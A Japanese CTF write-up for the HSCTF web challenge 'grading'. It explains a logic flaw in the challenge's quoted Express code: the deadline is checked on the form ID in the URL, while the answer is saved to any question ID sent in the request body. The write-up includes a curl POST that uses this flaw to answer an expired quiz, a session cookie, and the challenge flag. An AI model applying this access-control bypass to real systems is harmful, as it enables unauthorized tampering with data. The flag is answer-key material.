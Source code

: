 # grading:web:397pts
Did you attend online school this year?  
Good, because you'll need to register at [grading.hsc.tf](https://grading.hsc.tf/login) and get an A on "simple quiz" to find the flag.  
Server code is attached.  
[grading-master.zip](grading-master.zip)  

# Solution
アクセスし、アカウントを登録するとテストを受けられるサイトのようだ。  
Formable  
[site1.png](site/site1.png)  
テストは二つあるが、片方は締め切りを過ぎているようだ。  
simple quiz (URL:https://grading.hsc.tf/60c8ba318c156ea0525271b0)  
[site2.png](site/site2.png)  
another simple quiz (URL:https://grading.hsc.tf/60c8ba318c156e1a895271b1)  
[site3.png](site/site3.png)  
どうやらこのsimple quizをどうにかして再受験したいらしい。  
まずは受験できるテストに`CTFCTF`と解答を入力し動作を見ると、`/60c8ba318c156e1a895271b1`に`ID=60c8ba318c156e75095271af&value=CTFCTF`をPOSTしている。  
IDはinputのnameであるようだ。  
```html
~~~
        <div class="mb-3 question">
            <label for="">What is the best CTF?</label>
            
                <input type="text"  class='active' name="60c8ba318c156e75095271af" value="CTFCTF">
             
        </div>
~~~
```
ここで配布されたソースのapp.jsを見てみる。  
```JavaScript
~~~
.post(authMW, (req, res) => {
    const now = Date.now()
    const form = req.user.forms.id(req.params.formID)
    if(now > form.deadline) {
        res.json({response: "too late"})
    } else {
        if(req.body.ID) {
            const question = req.user.questions.id(req.body.ID)
            console.log(question);
            question.submission = req.body.value
            req.user.save()
        } else {
            form.submitted = true
            req.user.save()
        }

        res.json({response: "heh"})
    }

})
~~~
```
`formID`経由で締め切りを取得しチェックした後に、`ID`で問題を選択し解答を保存している。  
つまり`formID`を現在締め切られていないもの、かつ`ID`は締め切りを過ぎたものにすれば締め切りチェックを回避できる。  
締め切りを過ぎた問題のIDは以下のようであった。  
```html
        <div class="mb-3 question">
            <label for="">What is the capital of Africa?</label>
             
                <fieldset>
                     
                        <div>
                            <input class="form-check-input" type="radio" name="60c8ba318c156e5afc5271ae" value="Venezuela"  disabled >
                            <label class="form-check-label" for="">Venezuela</label>
                        </div>
~~~
                        <div>
                            <input class="form-check-input" type="radio" name="60c8ba318c156e5afc5271ae" value="Africa is not a country"  disabled >
                            <label class="form-check-label" for="">Africa is not a country</label>
                        </div>
                     
                </fieldset>
             
        </div>
```
これを利用し以下のようなリクエストを送る(cookieは解法には関係ない)。  
```bash
$ curl -X POST https://grading.hsc.tf/60c8ba318c156e1a895271b1 -d "ID=60c8ba318c156e5afc5271ae&value=Africa is not a country" --cookie "connect.sid=s%3A9hca6KblGft22wdViRS5O09d4le1Tj4J.JAzBnOTmIm0WgfiN4OjHnH3la7xnb%2FaSFXRzMOhSayg"
{"response":"heh"}
```
simple quizにアクセスするとflagが表示されていた。  
flag  
[flag.png](site/flag.png)  

## flag{th3_an5w3r_w4s_HSCTF_0bvi0us1y}